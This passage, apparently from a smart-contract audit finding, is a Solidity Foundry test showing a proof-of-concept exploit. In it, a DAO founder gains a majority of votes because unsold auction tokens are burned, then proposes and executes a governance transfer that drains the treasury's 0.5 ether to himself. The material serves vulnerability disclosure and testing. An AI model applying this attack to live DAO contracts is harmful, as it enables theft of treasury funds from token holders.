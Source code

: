 ```solidity
        assertEq(nextTokenId, 1);
        //
        // 4. The auction's token is not sold and it is burned
        vm.warp(block.timestamp + 10 minutes);
        auction.settleCurrentAndCreateNewAuction();
        //
        // 5. The next auction's token is minted and the founder get another token
        (nextTokenId, , , , , ) = auction.auction();
        assertEq(nextTokenId, 3);
        assertEq(token.balanceOf(founder), 2);
        assertEq(token.getVotes(founder), 2);
        //
        // 6. The auction's token is not sold and it is burned
        vm.warp(block.timestamp + 10 minutes);
        auction.settleCurrentAndCreateNewAuction();
        //
        // 7. The next auction's token is minted and the founder get another token and more votes
        (nextTokenId, , , , , ) = auction.auction();
        assertEq(nextTokenId, 5);
        assertEq(token.balanceOf(founder), 3);
        assertEq(token.getVotes(founder), 3);
        //
        // 8. The next token is sold to Alice but at this time, the founder has the majority of votes.
        address alice = address(1222);
        vm.deal(alice, 1 ether);
        vm.prank(alice);
        auction.createBid{ value: 0.5 ether }(nextTokenId);
        vm.warp(block.timestamp + 10 minutes);
        auction.settleCurrentAndCreateNewAuction();
        assertEq(token.balanceOf(founder), 4);
        assertEq(token.getVotes(founder), 4);
        assertEq(token.balanceOf(alice), 1);
        assertEq(token.getVotes(alice), 1);
        //
        // 9. Malicious founder propose a transfer funds action from the treasury to him
        assertEq(address(treasury).balance, 0.5 ether);
        address[] memory targets = new address[](1);
        uint256[] memory values = new uint256[](1);
        bytes[] memory calldatas = new bytes[](1);
        targets = new address[](1);
        values = new uint256[](1);
        calldatas = new bytes[](1);
        targets[0] = founder;
        values[0] = 0.5 ether;
        calldatas[0] = abi.encodeWithSignature("");
        vm.startPrank(founder);
        bytes32 proposalId = governor.propose(targets, values, calldatas, "");
        vm.warp(block.timestamp + governor.votingDelay());
        governor.castVote(proposalId, 1);
        vm.warp(block.timestamp + governor.votingPeriod());
        governor.queue(proposalId);
        vm.warp(block.timestamp + treasury.delay());
        governor.execute(targets, values, calldatas, keccak256(bytes("")), founder);
        //
        // 10. Now the treasury is empty and malicious founder obtains 0.5 ether.
        assertEq(address(treasury).balance, 0);
        assertEq(address(founder).balance, founderInitialBalance + 0.5 ether);
    }
```
